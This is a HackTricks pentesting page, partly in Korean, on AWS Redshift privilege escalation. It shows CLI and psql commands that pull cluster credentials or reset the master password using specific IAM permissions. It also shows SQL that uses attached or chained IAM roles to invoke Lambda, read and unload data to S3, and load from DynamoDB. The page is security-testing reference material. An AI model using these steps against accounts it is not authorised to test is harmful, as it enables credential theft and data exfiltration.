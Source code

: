 # AWS - Redshift Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## Redshift

RDS에 대한 자세한 정보는 다음을 확인하세요:

{{#ref}}
../../aws-services/aws-redshift-enum.md
{{#endref}}

### `redshift:DescribeClusters`, `redshift:GetClusterCredentials`

이 권한들로 모든 클러스터의 **정보**(이름 및 클러스터 사용자 이름 포함)를 얻고, 클러스터에 접근할 수 있는 **자격 증명**을 얻을 수 있습니다:
```bash
# Get creds
aws redshift get-cluster-credentials --db-user postgres --cluster-identifier redshift-cluster-1
# Connect, even if the password is a base64 string, that is the password
psql -h redshift-cluster-1.asdjuezc439a.us-east-1.redshift.amazonaws.com -U "IAM:<username>" -d template1 -p 5439
```
**Potential Impact:** 데이터베이스 내부에서 민감한 정보를 찾을 수 있습니다.

### `redshift:DescribeClusters`, `redshift:GetClusterCredentialsWithIAM`

이 권한들로 **모든 클러스터의 정보**를 얻고 접속할 수 있는 **자격증명**을 얻을 수 있습니다.\
참고: postgres 사용자는 자격증명을 얻는 데 사용된 **IAM identity가 가진 권한**을 갖습니다.
```bash
# Get creds
aws redshift get-cluster-credentials-with-iam --cluster-identifier redshift-cluster-1
# Connect, even if the password is a base64 string, that is the password
psql -h redshift-cluster-1.asdjuezc439a.us-east-1.redshift.amazonaws.com -U "IAMR:AWSReservedSSO_AdministratorAccess_4601154638985c45" -d template1 -p 5439
```
**잠재적 영향:** 데이터베이스 내부에서 민감한 정보를 찾을 수 있습니다.

### `redshift:DescribeClusters`, `redshift:ModifyCluster?`

aws cli에서 내부 postgres (redshit) 사용자에 대한 **마스터 비밀번호를 변경**할 수 있습니다 (이 권한들이 필요해 보이지만 아직 테스트해보지 않았습니다):
```
aws redshift modify-cluster –cluster-identifier <identifier-for-the cluster> –master-user-password ‘master-password’;
```
**잠재적 영향:** 데이터베이스 내부에서 민감한 정보를 찾을 수 있습니다.

## 외부 서비스 접근

> [!WARNING]
> 다음의 모든 리소스에 접근하려면 **사용할 역할을 지정해야 합니다**. Redshift 클러스터는 **사용할 수 있는 AWS 역할 목록을 할당할 수 있으며** **ARN을 알고 있다면** 이를 사용할 수 있습니다. 또는 할당된 기본 역할을 사용하려면 "**default**"로 설정하면 됩니다.
>
> Moreover, as [**explained here**](https://docs.aws.amazon.com/redshift/latest/mgmt/authorizing-redshift-service.html), Redshift also allows to concat roles (as long as the first one can assume the second one) to get further access but just **구분**하여 **쉼표**로 연결하면 됩니다: `iam_role 'arn:aws:iam::123456789012:role/RoleA,arn:aws:iam::210987654321:role/RoleB';`

### Lambdas

As explained in [https://docs.aws.amazon.com/redshift/latest/dg/r_CREATE_EXTERNAL_FUNCTION.html](https://docs.aws.amazon.com/redshift/latest/dg/r_CREATE_EXTERNAL_FUNCTION.html), **redshift에서 lambda 함수를 호출할 수 있습니다** 다음과 같이:
```sql
CREATE EXTERNAL FUNCTION exfunc_sum2(INT,INT)
RETURNS INT
STABLE
LAMBDA 'lambda_function'
IAM_ROLE default;
```
### S3

앞서 [https://docs.aws.amazon.com/redshift/latest/dg/tutorial-loading-run-copy.html](https://docs.aws.amazon.com/redshift/latest/dg/tutorial-loading-run-copy.html)에 설명된 것처럼, **S3 버킷을 읽고 쓸 수 있습니다**:
```sql
# Read
copy table from 's3://<your-bucket-name>/load/key_prefix'
credentials 'aws_iam_role=arn:aws:iam::<aws-account-id>:role/<role-name>'
region '<region>'
options;

# Write
unload ('select * from venue')
to 's3://mybucket/tickit/unload/venue_'
iam_role default;
```
### Dynamo

[https://docs.aws.amazon.com/redshift/latest/dg/t_Loading-data-from-dynamodb.html](https://docs.aws.amazon.com/redshift/latest/dg/t_Loading-data-from-dynamodb.html)에 설명된 바와 같이, **dynamodb에서 데이터를 가져올 수 있습니다**:
```sql
copy favoritemovies
from 'dynamodb://ProductCatalog'
iam_role 'arn:aws:iam::0123456789012:role/MyRedshiftRole';
```
> [!WARNING]
> 데이터 제공용 Amazon DynamoDB 테이블은 [REGION](https://docs.aws.amazon.com/redshift/latest/dg/copy-parameters-data-source-s3.html#copy-region) 옵션을 사용하여 Amazon DynamoDB 테이블이 위치한 AWS Region을 지정하지 않는 한, 클러스터와 동일한 AWS Region에 생성되어야 합니다.

### EMR

참조 [https://docs.aws.amazon.com/redshift/latest/dg/loading-data-from-emr.html](https://docs.aws.amazon.com/redshift/latest/dg/loading-data-from-emr.html)

## 참고자료

- [https://gist.github.com/kmcquade/33860a617e651104d243c324ddf7992a](https://gist.github.com/kmcquade/33860a617e651104d243c324ddf7992a)

{{#include ../../../../banners/hacktricks-training.md}}
